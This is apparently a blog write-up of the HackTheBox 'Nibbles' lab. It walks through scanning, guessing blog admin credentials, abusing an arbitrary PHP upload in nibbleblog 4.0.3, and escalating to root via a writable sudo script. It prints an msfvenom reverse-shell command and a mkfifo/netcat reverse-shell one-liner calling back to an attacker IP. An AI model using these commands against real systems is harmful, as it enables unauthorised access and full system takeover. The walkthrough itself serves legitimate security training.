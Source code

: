 ```yaml
---
title: Nibbles
date: 2023-02-08 14:27
categories: [htb]
tags: [Linux,Malicious File Upload,Path Injection]
--- 
```


Nibbles is an easy level Linux machine on HacktheBox. We start by getting a foothold by guessing user credentials for a blog site, and finding out we can upload and execute arbitrary PHP files. Using this to get a reverse shell, we then elevate to root priveleges by re-writing a script that the user has access to run as root. 

As always we run an Nmap on the target

![nmap](/assets/img/nibbles/nmap.png)

Just 22, and 80, let's poke around the website.

![static](/assets/img/nibbles/static.png)

The homepage is just a static html page, but it's telling us to check out /nibbleblog/

![blog](/assets/img/nibbles/blog.png)

Visiting this page shows us the front page of what appears to be a blog, and at the bottom left it tells us this is made with nibbleblog.

![buster](/assets/img/nibbles/buster.png)

Running gobuster in this directory shows some interesting endpoints, admin and admin.php. 

![admin](/assets/img/nibbles/admin.png)

the /Admin and /content pages have a layout of the websites files. We can't really do anything with this currently and there is no interesting information leaked, but we'll remember this if it's useful later on.

![adminphp](/assets/img/nibbles/adminphp.png)

The /admin.php page shows us a login page, but we have to becareful here, if we try to bruteforce this login page we'll get blacklisted by some type of WAF or something.

![hydra](/assets/img/nibbles/hydra.png)

![black](/assets/img/nibbles/black.png)

We can wait a few minutes, or revert the machine to get back to the login page. It turns out this password can be guessed, and we can login with the credentials admin:nibbles.

![403](/assets/img/nibbles/403.png)

If we go to the settings page, we can see that the site is running nibbleblog version 4.0.3, which we found an authenticated arbritrary php file upload vulnerability on github for.

![git](/assets/img/nibbles/git.png)

This exploit works because you can upload any file via the "my image" plugin, and the extension will not be checked, thus it is possible to upload php files and get code execution. Let's use msfvenom to create our payload.

```bash
msfvenom -p php/reverse_php  LHOST=10.10.14.14 LPORT=1337 -f raw -o shell2.php
```

![shelly](/assets/img/nibbles/shelly.png)

We upload the shell, and ignore the errors at the top. Remember how we could visit /content and /admin to view the web structure? We'll need to go there and navigate to our shell to get the web server to exectue it, after setting up a netcat listener of course.

![myimage](/assets/img/nibbles/myimage.png)

We browse to the plugin's content directory, and click on the image.php file, the connection hangs and we get a hit on our listener.

![shell](/assets/img/nibbles/shell.png)

For some reason this shell is extremely unstable, and disconnects after a short period. We'll use a netcat reverse shell instead by setting up a new listener, and throwing this payload into our php reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 1338 >/tmp/f
```

We get a hit on our 2nd listener.

![goodshell](/assets/img/nibbles/goodshell.png)

Checking our sudo privleges on the box shows us:

![sudo](/assets/img/nibbles/sudo.png)

We can run monitor.sh, which exists inside of the "nibbler" user's home directory, we just need to unzip personal.zip to see it.

![monitor](/assets/img/nibbles/monitor.png)

We could read this script and find out what it's doing, or we can just edit it to do whatever we want, as we have write access to the file.

![perms](/assets/img/nibbles/perms.png)

We'll overwrite the file by echoing '#!/bin/bash' to monitor.sh, so the shell script "knows where to go", then append the command we want to run, which is /bin/bash. We make it executable with `chmod +x` and run the new shell script with sudo, giving us a root shell!

![root](/assets/img/nibbles/root.png)

